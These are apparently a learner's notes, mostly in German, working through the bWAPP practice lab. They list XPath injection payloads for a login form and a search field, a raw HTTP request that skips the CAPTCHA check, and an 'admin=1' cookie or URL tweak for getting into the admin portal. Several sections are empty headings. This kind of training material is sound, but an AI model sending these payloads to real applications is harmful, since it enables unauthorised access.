 ##### XML/XPath Injection (Login Form)
~~~
password=' or id='2
~~~
---
##### XML/XPath Injection (Search)
~~~
genre=')]/password | a[contains(a,'
genre=') or contains(genre, '
genre=') or not(contains(genre, 'xxx') and '1'='2
~~~

---

### // A2 - Broken Authentication	/	Session	Management //
---
##### Broken Authentication - CAPTCHA Bypassing
Sicherstellen das captcha_box.php nicht geladen wird. Dort wird die Session Varible geladen.
$_SESSION["captcha"] erfordert eine prüfung. Mittels Burp kann eine übermittlung von captcha user vermieden werden.
~~~
POST /bWAPP/ba_captcha_bypass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/bWAPP/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
~~~
---
##### Broken Authentication - Logout Management
> Öffnet man ein neues Tab und meldet sich von der Seite ab, bleibt die Session vorhanden.

---
##### Broken Authentication - Password Attacks
---
##### Broken Authentication - Weak Passwords
---
##### Session Management - Administrative Portals
In der URL und den Cookies:
~~~
admin=1
~~~

---